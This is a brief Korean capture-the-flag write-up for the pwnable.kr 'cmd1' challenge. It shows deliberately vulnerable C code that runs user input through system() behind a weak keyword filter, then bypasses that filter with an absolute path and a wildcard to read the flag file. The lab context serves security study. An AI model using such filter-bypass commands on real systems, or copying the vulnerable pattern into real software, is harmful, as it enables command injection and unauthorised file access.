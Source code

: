 ```yaml
---
sort: 14
---
```


# cmd1

home 디렉토리에 cmd1.c파일에 소스코드가 들어있다.

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}
```

strstr을 통해서 flag, sh, tmp를 검열하는 모습이다.<br>
그리고 PATH 환경변수를 조져버린모습이다.<br>
환경변수를 조져버렸기 때문에 명령어 프로그램을 사용하려면 절대경로를 사용해야한다.<br>
whereis 명령어를 이용하면 명령어 프로그램이 어디에 있는지 확인할 수 있다.<br>
flag는 정규표현식을 이용하여 우회했다.

```bash
cmd1@pwnable:~$ cmd1@pwnable:~$ whereis cat
cat: /bin/cat /usr/share/man/man1/cat.1.gz
cmd1@pwnable:~$ ./cmd1 "/bin/cat f*"
```

```tip
## 알게 된 점

logic bug
```
